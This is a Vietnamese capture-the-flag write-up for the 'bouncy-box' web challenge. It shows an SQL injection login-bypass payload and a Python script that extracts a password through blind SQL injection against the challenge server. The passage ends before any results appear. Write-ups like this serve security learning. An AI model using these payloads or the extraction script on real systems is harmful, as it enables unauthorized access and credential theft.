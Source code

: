 # Category: Web challenge
Đã quá lâu rồi không viết gì, thôi thì nhân một ngày bình thường mình sẽ viết một cái gì đó để "take back my power".
## bouncy-box
**Dạng bài: sqli**

Bắt đầu challenge, chúng ta sẽ thấy một form đăng nhập:

![image](https://user-images.githubusercontent.com/83667873/141960479-364ff111-a5e4-491d-a1e1-6025da82f9bd.png)

Ở bước này, chúng ta có thể thực hiện sql injection bằng một payload đơn giản:
```
username_input=' or 1#&password_input=
```
Sau khi đăng nhập thành công chúng ta sẽ được redirect tới một page, trong page này chúng ta sẽ thấy một button để get flag:

![image](https://user-images.githubusercontent.com/83667873/141958523-6004408a-c67c-49cb-b989-eeb94907015f.png)

Thử click vào free flag, và tất nhiên không thể get flag, đời không như mer. Lại một form đăng nhập nữa mình hiện ra:

![image](https://user-images.githubusercontent.com/83667873/141958918-9d09449d-5687-406d-a3eb-e559f94c2431.png)

Mình thử một vài payload sqli cơ bản nhưng không có gì bất thường, có lẽ chúng ta cần phải lấy được password để đăng nhập. But how??

Câu trả lời nằm ở form đăng nhập đầu tiên, ở đây chúng ta có thể sử dụng blind sqli lên form đăng nhập đầu tiên để lấy mật khẩu:

Code cùi bắp để lấy password do mình viết:

```
import requests, string

url ='https://bouncy-box.chals.damctf.xyz/login'
length = 0
password=''

#Find length of password:
for i  in range(1,50):
	r = requests.post(url,data={'username_input':'boxy_mcbounce',"password_input":f"' or length(password)='{i}'#"})
	if "boxy_mcbounce's Stats" in r.text:
		length = i
		print("length of password: ",length)
		break

#Find password:
for i in range(1,length+1):
	for s in string.printable:
		r = requests.post(url,data={'username_input':'boxy_mcbounce',"password_input":f"' or substr(password,{i},1)='{s}'#"})
		if "boxy_mcbounce's Stats" in r.text:
			print(s)
			password += s
			break
print('Password: ',password)
```
Kết quả:
